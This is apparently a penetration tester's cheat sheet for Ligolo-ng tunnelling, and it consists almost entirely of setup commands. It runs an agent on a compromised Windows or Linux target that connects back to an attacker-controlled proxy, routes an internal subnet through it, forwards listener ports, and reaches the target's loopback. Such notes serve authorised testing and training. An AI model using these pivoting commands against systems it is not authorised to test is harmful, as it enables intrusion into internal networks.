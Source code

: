 Setting up the Ligolo-ng.
```
sudo ip tuntap add user <Username> mode tun ligolo
```
```
sudo ip link set ligolo up
```
Launching Ligolo-Proxy in local Machine.
```
./lin-proxy -selfcert -laddr 0.0.0.0:443
```

Connecting Ligolo-Agent from Target Machine.
For Windows.
```
./agent.exe -connect 192.168.45.xxx:443 -ignore-cert
```
For Linux.
```
./lin-agent -connect 192.168.45.xxx:443 -ignore-cert
```

Add the subnet to our Route table.
```
sudo ip route add 172.16.170.0/24 dev ligolo
```

Back To local Machine and check for connection in Proxy, run this command to list active sessions.
```
sessions
```
Once connected to the session from the Target Machine Strat Tunnelling.
```
start
```

To add listener to the Proxy, run this command in proxy on Target Session
```
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443 --tcp
```
```
listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80 --tcp
```

To access Local ports of Target Machine for loopback, run this command.
```
sudo ip route add 240.0.0.1/32 dev ligolo
```